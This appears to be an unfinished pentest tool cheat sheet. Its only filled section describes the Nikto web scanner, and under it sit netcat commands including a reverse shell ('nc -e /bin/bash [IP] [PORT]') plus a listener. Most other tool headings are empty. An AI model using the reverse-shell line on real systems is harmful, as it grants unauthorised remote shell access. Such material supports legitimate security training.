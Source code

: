 # Basic Tools - Description & How to Use

## Nikto
Nikto is a web scanner which test the web servers /URL of the target.
Nikto performs the comprehensive scan, checks the outdated version of servers.
It scans over 6700 vulnerable programs/directories.
Nikto checks the configuration of the server like multiple index files,
backup files lying on the server and other things.
#### Command Syntax

```
            nikto -host [IP]
            nikto -host [IP] --useproxy [PROXYIP]:[PORT]
            nc -lvp [port]
            nc -e /bin/bash [IP] [PORT]
            nc [IP] [PORT]
   ```
#### Example of Usage
```
            nikto -host 10.10.10.10								*
            nikto --host 10.10.10.10 --useproxy 10.10.10.10:1234
            nc -lvp 1234
            nc -e /bin/bash 10.10.10.10 1234
            nc 10.10.10.10 1234
   ```
## nmap

## wfuzz

## Hydra

## Burp

## Metasploit

## SQLmap

## Ettercap

## Wireshark

## gobuster - dirb

## librenms

## netbox
